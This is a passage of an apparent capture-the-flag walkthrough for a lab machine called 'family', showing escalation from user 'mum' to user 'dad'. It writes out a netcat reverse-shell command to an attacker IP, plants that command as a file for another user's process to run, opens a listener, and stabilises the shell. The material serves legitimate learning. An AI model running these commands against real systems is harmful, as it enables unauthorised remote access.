






4.5 Payload
1. Connect again via SSH.
2. Run the following commands.
mum@family:~$ cd /home/dad
mum@family:~$ ls
mum@family:/home/dad$ cat project
Output:

3. On your Kali Machine run the following code.
$ for x in GET POST PUT HEAD ; do echo "Method: $x" ; curl --head -X $x http://localhost:8000 ; done
Output:

4. Create a file with a connection to your Kali Machine with “netcat”.
$ echo "nc -e /bin/bash 192.168.12.60 4444" > rev
5. Close the SSH forwarding conection with Ctrl+c.
6. Run the following comands to check the “rev” file has been copied.
mum@family:~$ cd /home/dad/survey/
mum@family:/home/dad/survey$ ls
Output:

7. On your Kali Machine create “netcat” conection.
$ nc -lnvp 4444
Output:

After a while you'll get a connection.
8. Stabilize your shell.
python3 -c 'import pty;pty.spawn("/bin/bash")'
dad@family:~$ export TERM=xterm
Output:

8. Run the followin command “id”.
dad@family:~$ id
Output:

You're are “dad” user.